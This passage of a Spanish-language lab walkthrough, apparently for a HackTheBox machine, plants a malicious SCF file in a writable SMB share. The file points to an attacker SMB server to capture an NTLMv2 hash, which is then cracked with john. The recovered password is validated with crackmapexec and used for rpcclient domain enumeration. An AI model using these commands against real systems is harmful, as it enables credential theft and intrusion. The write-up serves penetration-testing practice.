 Vemos que se puede escribir en el directorio Public. Creamos un fichero malicioso en este directorio.


### SCF fichero malicioso para smb {-}

Buscando por internet con las palabras `smb malicious file`, encontramos una possiblidad de injectar un fichero malicioso de typo SCF. Esta vulnerabilidad
consiste injectar una peticion a la maquina de atacante a partir del momento que alguien vea el icono del fichero creado.

1. Creamos un recurso compartido a nivel de red

    ```bash
    cd content
    impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. Creamos el ficher scf malicioso en el directorio **Public**

    ```bash
    cd /mnt/smb/Users/Public
    nano file.scf

    [Shell]
    Command=2
    IconFile=\\10.10.16.3\smbFolder\pentestlab.ico
    [Taskbar]
    Command=ToggleDesktop
    ```

1. Esperamos un momentito

Ya vemos que una conexion se a establecida y vemos un hash NTLM de version 2 para el usuario amanda.

### Crackeamos el hash con john {-}

Copiamos el hash en un fichero y intentamos crackearlo con John

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt amanda_hash
```

ya tenemos una credencial para el usuario amanda.

Checkeamos la validez de esta credencial con **crackmapexec**

```bash
crackmapexec smb 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

Vemos que es valida pero no nos podemos conectar porque ne esta el famoso **Pwn3d**

### Enumeracion de usuarios con rpcclient {-}

```bash
rpcclient -U "amanda%Ashare1972" 10.10.10.10 -c 'enumdomusers'
rpcclient -U "amanda%Ashare1972" 10.10.10.10 -c 'enumdomgroups'
# get the rid of domain admins -> 0x200 in this example
rpcclient -U "amanda%Ashare1972" 10.10.10.10 -c 'querygroupmem 0x200'
# get the rid of the users -> 0x1f4 for example
rpcclient -U "amanda%Ashare1972" 10.10.10.10 -c 'queryuser 0x1f4'
```

